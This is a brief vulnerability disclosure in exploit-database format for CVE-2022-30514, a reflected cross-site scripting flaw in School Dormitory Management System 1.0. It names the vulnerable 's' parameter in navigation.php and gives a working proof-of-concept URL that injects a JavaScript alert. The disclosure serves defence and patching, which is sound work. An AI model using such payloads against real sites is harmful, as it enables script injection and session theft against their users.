# CVE-2022-30514

School Dormitory Management System 1.0 - Reflected XSS

#### Exploit Title: School Dormitory Management System 1.0 - Reflected XSS
#### Date: 2022-05-25
#### CVE: CVE-2022-30514
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://www.sourcecodester.com/
#### Software Link: https://www.sourcecodester.com/php/15319/school-dormitory-management-system-phpoop-free-source-code.html
#### Version: 1.0
#### Tested on: LAMP, Ubuntu

-----


#### [#] Vulnerability Location:

`$_GET['s']` in `/dms/admin/inc/navigation.php:126`

----

#### [#] Exploitation :
  
  `http://localhost/dms/admin/?s=%27;%20alert(%22b4zb0z%22);%20s=%27`
